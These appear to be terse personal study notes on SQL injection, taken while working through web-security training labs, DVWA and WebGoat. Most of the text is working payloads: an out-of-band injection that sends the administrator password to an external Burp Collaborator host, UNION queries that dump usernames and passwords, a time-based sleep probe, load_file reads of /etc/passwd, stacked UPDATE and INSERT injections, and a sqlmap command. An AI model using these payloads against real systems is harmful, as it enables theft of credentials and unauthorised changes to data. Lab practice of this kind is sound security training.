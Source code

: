 End Goals:
1) Exploit SQLi to output the password of the administrator user
2) Login as the administrator user

ANALYSIS 
' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.akyjt827n6zbq7z8zvtfg6bft6zwnl.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)-- 


LAB #17  SQL injection with filter bypass via XML encoding
--
VULNERABLE PARAMETER -- STOCK CHECK FEATURE 
END GOAL -- EXPLOIT THE VULNERABILITY AND RETRIEVE THE ADMIN LOGIN CREDENTIALS

ANALYSIS 
-->> check number of columns ( encode with hackvertor hex entities)
1 UNION SELECT NULL
-->> EXTRACT USERNAME AND PASSWORD 
1 UNION SELECT username || '~' || password from users

-->>administrator-8y6hcm6kp9e449c7ngu2	



DVWA ----
--
DOCKER sudo docker run --rm it -p 80:80 vulnerables/dvwa 


SQLI YT
--

')) UNION/**/SELECT/**/id, '

insert into users (username, password) value ('teja', 'pwoijg,)

union select sleep(5),2,3,4,5'6

LOAD_FILE(filename )
union select load_file('/etc/passwd'), 2,3,4,5,'6
union select hex(load_file('/etc/passwd')), 2,3,4,5,'6
		| xxd -r -p (for decoding the hex)

WEBGOAT 

docker run -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 -e TZ=Europe/Amsterdam webgoat/webgoat
		[http://127.0.0.1:8080/WebGoat](http://127.0.0.1:8080/WebGoat)
UPDATE (webgoat)
		jsmith'; UPDATE salaries set salaries=1500 where username='funaya' ;--
INSERT
		insert into users (userid,salary) values ('teal',1500) ';

SQLMAP
--
intercept. the request using burpsuite
save the request to desktop
sqlmap -r /root/Desktop/request.txt --dbs
		-- will display all the vulnerabilities and display all databases
